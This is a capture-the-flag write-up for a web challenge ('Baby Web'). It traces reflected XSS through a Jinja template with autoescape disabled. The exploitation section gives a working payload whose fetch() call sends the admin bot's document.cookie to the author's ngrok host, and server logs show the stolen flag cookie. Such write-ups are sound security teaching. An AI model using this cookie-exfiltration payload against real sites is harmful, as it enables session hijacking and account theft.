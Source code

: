 # Baby Web

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- 152 solves / 50 points
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This website seems to have an issue. Let's report it to the admins.

- Junhua

[http://34.124.157.94:5006/](http://34.124.157.94:5006/)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230519221707.png)

In here, we can report an issue to admins, and it says "Only admins with a special cookie can see the tickets.".

***So, our goal is to exploit some client-side vulnerabilities like Cross-Site Scripting (XSS) to exfiltrate the admin bot's cookie??***

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web/dist.zip):**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:18:31(HKT)]
└> file dist.zip 
dist.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:18:31(HKT)]
└> unzip dist.zip 
Archive:  dist.zip
  inflating: adminbot.py             
  inflating: constants.py            
  inflating: dockerfile              
 extracting: requirements.txt        
  inflating: server.py               
  inflating: templates/base.html     
  inflating: templates/index.html    
  inflating: templates/ticket.html   
```

In `server.py`, we can see how all the routes are being implemented.

**In route `/`, we see this:**
```python
BASE_URL = "http://localhost:5000/"


@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "GET":
        return render_template('index.html')
    
    message = request.form.get('message')
    if len(message) == 0:
        flash("Please enter a message")
        return render_template('index.html')

    link = f"/ticket?message={quote(message)}"

    # Admin vists the link here
    visit(BASE_URL, f"{BASE_URL}{link}")

    return redirect(link)
```

When we send a POST request to route `/`, it'll parse our ticket's message to a link: `/ticket?message={quote(message)}`, then the admin bot will visit the link at `http://localhost:5000/ticket?message={quote(message)}`. Finally, we'll be redirected to `/ticket` with GET parameter `message`.

**Route `/ticket`:**
```python
@app.route('/ticket', methods=['GET'])
def ticket_display():
    message = request.args.get('message')
    return render_template('ticket.html', message=message)
```

When GET parameter `message` is provided, it'll parse the `message` to `ticket.html` template and render it.

{% raw %}
**Template `ticket.html`:**
```html
{% extends 'base.html' %}
{% block content %}
<h1>This is your admin ticket content</h1>
{% autoescape false %} {{ message }} {% endautoescape %}
{% endblock %}
```
{% endraw %}

Hmm? **`autoescape` set to `false`?**

According to [CodeQL documentation](https://codeql.github.com/codeql-query-help/python/py-jinja2-autoescape-false/), it said:

> Cross-site scripting (XSS) attacks can occur if untrusted input is not escaped. This applies to templates as well as code. The `jinja2` templates may be vulnerable to XSS if the environment has `autoescape` set to `False`. Unfortunately, `jinja2` sets `autoescape` to `False` by default. Explicitly setting `autoescape` to `True` when creating an `Environment` object will prevent this.

That being said, **template `ticket.html` should be vulnerable to XSS.**

```html
/ticket?message=<script>alert(document.domain)</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230519223905.png)

But how the admin bot visit the link?

**In `adminbot.py`, we see this:**
```python
from selenium import webdriver
from constants import COOKIE
import multiprocessing
from webdriver_manager.chrome import ChromeDriverManager

options = webdriver.ChromeOptions()
options.add_argument("--headless")
options.add_argument("--incognito")
options.add_argument("--disable-dev-shm-usage")
options.add_argument("--no-sandbox")

def visit(baseUrl: str, link: str) -> str:
    """Visit the website"""
    p = multiprocessing.Process(target=_visit, args=(baseUrl, link))
    p.start()
    return f"Visiting {link}"

def _visit(baseUrl:str, link: str) -> str:
    """Visit the website"""
    with webdriver.Chrome(ChromeDriverManager().install(), options=options) as driver:
        try:
            driver.get(f'{baseUrl}/')
            cookie = {"name": "flag", "value": COOKIE["flag"]}
            driver.add_cookie(cookie)
            driver.get(link)
            return f"Visited {link}"
        except:
            return f"Connection Error: {link}"
```

Basically it first visit `http://localhost:5000/`, then, add cookie `flag` with the flag value. Finally, visit the `link`, which is `/ticket?message={quote(message)}`.

> Note: The `quote` from `urllib.parse` library is to URL encode the message, nothing to do with XSS protection. Also, the `flag` cookie doesn't have HttpOnly enabled, this allows us to use `document.cookie` API to fetch the cookie's value.

## Exploitation

**With that said, we can craft a payload that sends the admin bot's flag cookie:**

- Setup a port forwarding service, like Ngrok:

```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:49:25(HKT)]
└> ngrok http 80
[...]
Forwarding                    https://d347-{Redacted}.ngrok-free.app -> http://localhost:80            
[...]
```

- Setup a web server, like Python's `http.server`:

```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:50:04(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Submit a new ticket with the following XSS payload:

```html
<script>fetch(`https://d347-{Redacted}.ngrok-free.app/?c=${document.cookie}`);</script>
```

This payload will send a GET request to my Ngrok port forwarding service with GET paremeter `c` and the `flag`'s cookie value using `fetch()` API.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Grey-Cat-The-Flag-2023-Qualifiers/images/Pasted%20image%2020230519231102.png)

```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/Baby-Web)-[2023.05.19|22:50:04(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [19/May/2023 23:08:45] "GET /?c= HTTP/1.1" 200 -
127.0.0.1 - - [19/May/2023 23:08:45] "GET /?c=flag=grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c} HTTP/1.1" 200 -
```

We got the flag!

- **Flag: `grey{b4by_x55_347cbd01cbc74d13054b20f55ea6a42c}`**

## Conclusion

What we've learned:

1. Leaking Cookies Via Reflected XSS